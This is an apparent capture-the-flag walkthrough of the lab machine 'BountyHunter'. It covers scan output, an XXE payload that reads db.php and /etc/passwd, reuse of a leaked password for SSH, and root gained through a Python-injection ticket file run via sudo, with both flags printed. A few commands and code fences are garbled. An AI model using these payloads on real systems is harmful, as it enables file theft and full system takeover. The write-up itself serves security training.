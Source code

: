 
#Room name BountyHunter 

	#nmap scan
```
# Nmap 7.91 scan initiated Thu Aug 26 17:54:15 2021 as: nmap -sC -sV -oN nmap.cap 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 26 17:55:07 2021 -- 1 IP address (1 host up) scanned in 51.86 seconds

```
	
	#Gobuster results
```
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```


	#We found tasks on 'http://10.10.11.100/resources/README.txt'

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions

```

	#We found some interesting Directory 
```
http://10.10.11.100/log_submit.php
```


	#After capturing the request we find that here is xml XXE entity 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
```
	#In the first field use
```
&xxe;
```
	#We grab the db.php file having this information
```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```
![Image](https://github.com/sigwotts/HTB-Walkthrough/blob/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.36%20AM.png)



#But we tried using ssh it didn't worked, then we use to see the /etc/passwd file


	#First we have to encode this to url encoding then to base64
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>

		<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```


	# By enocoding this to enoding url then to base64 and after replacing the request in the burpsuite, we get
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

``` 
![Image](https://github.com/sigwotts/HTB-Walkthrough/blob/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.21%20AM.png)

	#Here we got the creds 
```
development:m19RoAU0hP41A1sTsq6K
```
#Boom we sucessfully login to the machine via ssh


	#Here we got the user flag
```
e83009fb0ded5f74b50aa794e0562246
```

	#Then we use 
```
sudo -l
```
```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```

#Now we can exploit by creating a file named as sig.md 
```
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**102 + 10 == 112 and __import__('os').system('/bin/bash') == False
``
	#Then start a python server on your machine
```
http -m python.server 1234
```

#Then upload this file in the /opt directory by using the cmd
```
wget http://10.10.14.157:1234/sig.md
```
	#Then we give permission to the file by 
```
chmod 777 sig.md
```

	#then run the tickerValidator.py
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

	#specify the ticket path to
```
/tmp/sig.md
```
#BOOOOOOOOOOOOOOOOOOOMMMM!!!!!!!!!!!  WE ARE ROOT


	#Now you can get the flag
```
cat /root/root.txt
``
	#Here is the flag
```
0cc723be65032a28eadcc712c03defd5
```





